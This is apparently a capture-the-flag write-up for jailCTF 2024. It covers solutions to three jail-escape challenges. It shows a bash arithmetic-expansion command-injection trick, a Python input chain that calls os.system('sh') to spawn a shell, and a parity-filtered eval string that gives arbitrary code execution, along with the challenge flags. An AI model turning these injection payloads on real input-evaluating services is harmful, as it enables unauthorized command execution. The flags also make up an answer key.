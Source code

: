 # jailCTF 2024

https://ctf.pyjail.club/

## blind-calc

The source code probably looks like this

```shell
read -p "Enter math > " expr
a=$(( \
expr \
))
echo $a
```

ref: https://www.nccgroup.com/us/research-blog/shell-arithmetic-expansion-and-evaluation-abuse/

**tl;dr:** `arr[$(COMMAND)]`

<details>
  <summary>FLAG</summary>
  <tt>jail{blind-calc_9c701e8c09f6cc0edd6}</tt>
</details>

## filter'd

```python
a=input;f(a())
M=999;f(a())
__import__('os').system('sh')
```

<details>
  <summary>FLAG</summary>
  <tt>jail{can_you_repeat_that_for_me?_aacb7144d2c}</tt>
</details>

## parity 1

The input string's ascii value must be even, odd, even, odd,....

Ultimately, we want to build `eval("eval(input()")`. Because the ascii value of "eval" is odd, even, odd, even.

The table lists import elements we can use to build the exploitation.

| char          | ord%2 |
| ------------- | ----- |
| `(`           | 0     |
| `)`           | 1     |
| `tab` or `\t` | 1     |
| `"`           | 0     |
| ` `           | 0     |
| `'`           | 1     |

And there are some Python syntax that allow us to do so.

- String concat: `"cat"'dog'` return `"catdog"`

- In the eval's input string:
  
  - Allowing tab and space inside parentheses
  
  - Allowing tab and space between funtion name and parentheses
  
  - Allowing tab and space in the start.

After some painful process, I construct a string that can let us execute arbitrary python code:

` eval\t(\' eval\' \'(\'"i"\'n\' + \'p\'"u"\'t\' \'(\'")"\' ) \' )`

<details>
  <summary>FLAG</summary>
  <tt>jail{parity_41f5812e8c0cd9}</tt>
</details>

## SUS-Calculator
